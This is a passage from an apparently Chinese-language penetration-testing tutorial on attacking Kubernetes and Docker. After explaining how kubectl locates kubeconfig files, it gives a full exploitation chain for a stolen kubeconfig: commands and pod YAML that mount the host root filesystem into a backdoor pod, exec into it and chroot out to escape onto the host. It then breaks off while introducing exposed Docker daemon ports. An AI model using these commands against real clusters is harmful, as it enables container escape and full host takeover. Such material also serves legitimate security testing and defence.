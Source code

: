 用户凭证保存在 kubeconfig 文件中，kubectl 通过以下顺序来找到 kubeconfig 文件：

1. 如果提供了--kubeconfig参数，就使用提供的 kubeconfig 文件。
2. 如果没有提供--kubeconfig 参数，但设置了环境变量 $KUBECONFIG，则使用该环境变量提供的 kubeconfig 文件。
3. 如果以上两种情况都没有，kubectl 就使用默认的 kubeconfig 文件 $HOME/.kube/config。

拿到K8s configfile完整利用流程：

K8s configfile --&gt; 创建后门Pod/挂载主机路径 --&gt; 通过Kubectl进入容器 --&gt; 利用挂载目录逃逸。

```php
#Linux安装kubectl
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
sudo install -o root -g root -m 0755 kubectl /usr/local/bin/kubectl
#内容放入config、或指定选项，需要修改Server地址
kubectl --kubeconfig k8s.yaml
#获取已接取的镜像
kubectl get pods --all-namespaces --insecure-skip-tls-verify=true -o jsonpath="{..image}" |tr -s '[[:space:]]' '\n' |sort |uniq -c
#创建Pod pod.yaml，将宿主机根目录挂载host文件
apiVersion: v1
kind: Pod
metadata:
  name: test-444
spec:
  containers:
  - name: test-444
    image: nginx:1.14.2
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
#在default命名空间中创建pod
kubectl apply -f pod.yaml -n default --insecure-skip-tls-verify=true
#进入容器中
kubectl exec -it test-444 bash -n default --insecure-skip-tls-verify=true
#切换bash，逃逸成功
cd /host
chroot ./ bash
```

#### Docker Daemon 公网暴露

Docker以C/S模式工作，其中docker daemon服务在后台运行，负责管理容器的创建、运行和停止操作。

在Linux主机上，docker daemon监听在/var/run/docker.sock中创建的unix socket，2375端口用于未认证的HTTP通信，2376用于可信HTTPS通信。

在最初版本安装Docker时默认会把2375端口对外开放，目前默认只允许本地访问。

管理员开启远程访问的配置如下：
